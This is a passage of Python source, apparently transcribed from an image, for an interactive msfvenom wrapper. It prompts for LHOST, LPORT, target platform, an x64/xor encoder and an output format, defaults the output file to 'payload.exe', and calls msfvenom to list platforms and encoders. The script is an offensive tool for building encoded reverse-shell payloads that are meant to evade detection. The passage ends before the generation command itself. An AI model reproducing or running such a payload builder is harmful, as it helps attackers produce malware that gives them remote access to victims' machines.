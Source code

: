    lhost = input(" [?] Enter LHOST for Payload [LHOST] : ")

   if lhost=="":

      lhost="127.0.0.1"

   

   print(" [*]  Using lhost  [*] "+lhost)

   lport = input(" [?] Enter LPORT for Payload : ")

   if lport=="":

      lport="4444"

   

   print(" [*]  Using lport  [*] "+lport)

   windowser = input(" [?] Enter Your platform windows or linux : ")

   if windowser=="":

      windowser="windows"

   

   print(" [*]  Using platform windows  [*] "+windowser)

   if "help" in windowser:

      print(" [%] Please Wait Opening Platforms List [%] ")

      platform1 = 'msfvenom --list platforms'

      os.system(platform1)

   virusencoder = input(" [?] Enter Your Encoder x64/xor : ")

   if virusencoder=="":

      virusencoder="x64/xor"

   print(" [*]  Using encoder x64/xor  [*] "+virusencoder)

   if "help" in virusencoder:

      print(" [%] Please Wait Opening Encoder List [%] ")

      encoder = 'msfvenom --list encoders'

      os.system(encoder)

   exe = input(" [?] Enter File Type [ exe , raw , bad , ps] : ")

   if exe=="":

      exe="exe"

   print(" [*]  Using format exe  [*] "+exe)

   hackerexe = input(" [?] Enter Out Put File Nmae :  ")

   if hackerexe=="":

      hackerexe="payload.exe"
